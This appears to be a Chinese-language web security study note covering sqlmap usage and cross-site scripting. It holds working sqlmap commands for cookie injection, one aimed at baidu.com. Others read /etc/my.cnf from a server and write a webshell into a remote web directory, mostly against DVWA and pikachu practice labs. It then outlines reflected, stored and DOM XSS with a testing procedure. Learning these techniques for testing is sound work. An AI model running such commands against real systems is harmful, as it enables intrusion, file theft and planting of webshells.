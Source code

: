 **cookie注入**

`sqlmap -u “http://www.baidu.com/shownews.asp” –cookie “id=11” –level 2`（只有level达到2才会检测cookie）



**读写文件**

```sql
--file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
--file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
--file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```



`sqlmap -r "c:\request.txt" -p id –dbms mysql –file-dest "e:\php\htdocs\dvwa\inc\include\1.php" –file-write "f:\webshell\1112.php"`

 将本地的f:\webshell\1112.php 写入到 远程服务器上e:\php\htdocs\dvwa\inc\include\1.php



`sqlmap -u "http://localhost/pikachu/vul/sqli/sqli_header/sqli_header.php" --cookie 'ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=6i60hcmeappdlkr216jovc0o6l' --level 2 --dbms mysql --file-read "/etc/my.cnf"` 

读取远程/etc/my.cnf文件



## 跨站脚本攻击（Cross-site scripting，通常简称为XSS）

- 反射型XSS原理与演示
  交互的数据不会存储在数据库里，一次性的。一般是查询导致或者是错误的js执行

- 存储型XSS原理与演示

  交互的数据会被存放在数据库里，永久性存储，一般出现在留言板，注册等页面

- Dom型XSS原理与演示
  漏洞是基于文档对象模型Document Objeet Model,DOM)的一种漏洞。不与后台服务器产生数据交互，是一种通过DOM操作前端代码输出的时候产生的问题，一次性也属于反射性



**形成XSS的原因主要是程序对输入输出的控制不够严格，导致“精心构造”的字符串被输入后，在输出到前端浏览器被当作有效代码执行从而形成危害**



- firefox浏览器
- chrome浏览器



### XSS漏洞测试流程

1. 在目标站点上找到输入点，比如查询输入框，留言板等
2. 输入“特殊字符+唯一标识符”，点击提交之后，查看返回的源码，是否有做对应的处理
3. 通过搜索定位到唯一字符，结合唯一字符前后语法确认是否可以构造JS的条件（构造闭合）
4. 提交构造的脚本代码（以及各种绕过姿势），看是否可以成功执行，如果成功执行则说明存在漏洞



**注意点：**
